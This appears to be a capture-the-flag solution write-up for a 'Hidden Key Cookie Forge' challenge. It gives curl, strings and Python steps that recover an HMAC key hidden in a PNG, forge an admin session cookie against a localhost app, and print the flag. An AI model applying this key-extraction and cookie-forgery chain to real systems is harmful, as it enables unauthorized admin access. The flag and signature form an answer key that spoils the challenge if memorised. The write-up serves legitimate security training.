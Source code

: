 
SOLUTION - Hidden Key Cookie Forge (complete)

1) Retrieve logo.png:
   curl -sS http://localhost:5000/static/logo.png -o logo.png

2) Extract PNG text chunk with strings or exiftool:
   strings logo.png | grep ctf_key
   # You will see: ctf_key\0supersecret_hmac_key_123

3) Craft signature:
   In Python:
   import hmac,hashlib
   key = "supersecret_hmac_key_123"
   username = "admin"
   sig = hmac.new(key.encode(), username.encode(), hashlib.sha256).hexdigest()
   print(sig)

   For this secret the signature for "admin" is:
   86f96cbc74c32acdadde613a7b5a7c2c6f639d0283aa6c2341e5cfcbad4f82b3

4) Request flag:
   curl -sS -H "Cookie: session=admin|86f96cbc74c32acdadde613a7b5a7c2c6f639d0283aa6c2341e5cfcbad4f82b3" http://localhost:5000/flag

Flag returned:
ISEP{YOU_MADE_IT_MATE}
